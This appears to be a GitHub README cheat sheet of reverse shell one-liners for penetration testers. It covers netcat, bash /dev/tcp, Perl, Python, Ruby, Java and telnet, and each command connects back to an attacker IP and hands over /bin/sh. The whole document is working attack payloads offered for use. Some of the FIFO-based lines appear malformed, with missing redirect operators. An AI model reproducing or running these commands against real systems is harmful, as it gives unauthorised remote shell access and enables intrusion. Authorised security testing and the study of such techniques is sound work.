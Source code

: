 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box ;make sure to change the 127.0.0.1 to your attacker listening IP!

### 1. Netcat

For old versions of netcat -  

	nc attackerip 4444  -e /bin/sh
	/bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
	rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
	sudo apt-get install netcat-traditional

### 2. Bash

	bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  

### 3. PERL  
Good ol' PERL, nearly every system has it and is a cornerstone of utility -  
	
    perl -e 'use Socket;$i="127.0.0.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 4. Python

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### 5. Ruby
	ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'   

### 6. Java

This is a pretty obscure / esoteric method but there might be a chance you might come across using this  (probably during a web app file upload vuln ? )-  

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
    
### 7. Telnet

     rm -f /tmp/p; mknod /tmp/p p && telnet 127.0.0.1 4444 0/tmp/p
     
Or use a bunch of piping
     
    telnet attackerip 4444 | /bin/bash | telnet 127.0.0.1 4444   